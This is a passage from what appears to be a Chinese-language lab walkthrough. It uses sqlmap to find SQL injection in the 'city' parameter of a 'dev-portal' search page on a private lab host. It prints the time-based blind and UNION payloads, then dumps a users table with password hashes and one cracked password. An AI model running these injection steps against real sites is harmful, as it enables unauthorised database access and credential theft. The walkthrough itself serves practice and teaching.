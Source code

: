 ```sh
sqlmap -u http://192.168.4.5/dev-portal/search.php?city=111 –-user-agent dev
...
GET parameter 'city' is vulnerable. Do you want to keep testing the others (if any)? [y/N]

sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests:
---
Parameter: city (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: city=111' AND (SELECT 5262 FROM (SELECT(SLEEP(5)))vcZY) AND 'IvXV'='IvXV

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: city=111' UNION ALL SELECT NULL,NULL,CONCAT(0x7162717071,0x50535465494e685645754c6b4e6f73666151495a4370594146794b634f6e6b74594363634b66494e,0x7162786a71),NULL-- -
---
```


接下来分别查看数据库和表
```sh
┌──(root㉿kali)-[~]
└─# sqlmap -u http://192.168.4.5/dev-portal/search.php?city=111 –-user-agent dev  --dbs
...
[23:22:45] [INFO] fetching database names
available databases [2]:
[*] Chromatica
[*] information_schema

┌──(root㉿kali)-[~]
└─# sqlmap -u http://192.168.4.5/dev-portal/search.php?city=111 –-user-agent dev  -D Chromatica --tables

[23:24:12] [INFO] fetching tables for database: 'Chromatica'
Database: Chromatica
[2 tables]
+--------+
| cities |
| users  |
+--------+

┌──(root㉿kali)-[~]
└─# sqlmap -u http://192.168.4.5/dev-portal/search.php?city=111 –-user-agent dev  -D Chromatica -T users --dump
...
[23:26:00] [INFO] cracked password 'keeptrying' for user 'user'
Database: Chromatica
Table: users
[5 entries]
+----+-----------------------------------------------+-----------+-----------------------------+
| id | password                                      | username  | description                 |
+----+-----------------------------------------------+-----------+-----------------------------+
| 1  | 8d06f5ae0a469178b28bbd34d1da6ef3              | admin     | admin                       |
| 2  | 1ea6762d9b86b5676052d1ebd5f649d7              | dev       | developer account for taz   |
| 3  | 3dd0f70a06e2900693fc4b684484ac85 (keeptrying) | user      | user account for testing    |
| 4  | f220c85e3ff19d043def2578888fb4e5              | dev-selim | developer account for selim |
| 5  | aaf7fb4d4bffb8c8002978a9c9c6ddc9              | intern    | intern                      |
+----+-----------------------------------------------+-----------+-----------------------------+

```
